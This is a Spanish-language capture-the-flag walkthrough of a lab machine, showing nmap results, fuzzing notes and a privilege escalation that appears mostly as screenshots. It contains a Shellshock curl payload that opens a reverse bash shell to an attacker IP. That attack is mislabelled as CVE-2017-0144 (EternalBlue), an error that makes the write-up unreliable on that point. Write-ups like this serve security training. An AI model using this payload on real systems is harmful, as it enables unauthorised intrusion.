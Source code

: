 ### nma
```python
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 6.6.1p1 Ubuntu 2ubuntu2.13 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   1024 57:20:82:3c:62:aa:8f:42:23:c0:b8:93:99:6f:49:9c (DSA)
|   2048 4c:40:db:32:64:0d:11:0c:ef:4f:b8:5b:73:9b:c7:6b (RSA)
|   256 f7:6f:78:d5:83:52:a6:4d:da:21:3c:55:47:b7:2d:6d (ECDSA)
|_  256 a5:b4:f0:84:b6:a7:8d:eb:0a:9d:3e:74:37:33:65:16 (ED25519)
80/tcp open  http    Apache httpd 2.4.7 ((Ubuntu))
|_http-title: 0day
|_http-server-header: Apache/2.4.7 (Ubuntu)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 33.39 seconds
```

### Ports

| PORT   | STATE | SERVICE | VERSION                                                         |
| ------ | ----- | ------- | --------------------------------------------------------------- |
| 22/tcp | open  | ssh     | OpenSSH 6.6.1p1 Ubuntu 2ubuntu2.13 (Ubuntu Linux; protocol 2.0) |
| 80/tcp | open  | http    | Apache httpd 2.4.7 ((Ubuntu))                                   |

### Enumeración puerto 80

![[Pasted image 20240224203940.png]]

### Fuzzing con wffuzz

![[Pasted image 20240224204334.png]]
###### en el directorio backup encontramos un id_rsa
![[Pasted image 20240224204640.png]]

### Common Vulnerabilities and Exposures
###### CVE-2017-0144 - EternalBlue
```python
curl -A "() { :; }; echo Content-type: text/html; echo; /bin/bash -i >& /dev/tcp/10.8.74.185/7890 0>&1" "http://10.10.245.192/cgi-bin/test.cgi"
```

![[Pasted image 20240224212355.png]]

### Escalada de privilegios

###### sacamos el hash del id_rsa
![[Pasted image 20240224220415.png]]
parece que no funciona esta id_rsa

### Enumeracion del sistema

![[Pasted image 20240224224841.png]]
tenemos un exploit para esta version de linux. creamos un servidor y lo compartimos con la maquina
###### vamos a sobre escribir el path debido a que el actual parece estar dañado
```python
	export PATH=/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin
```

![[Pasted image 20240224225042.png]]

### WE ARE ROOT
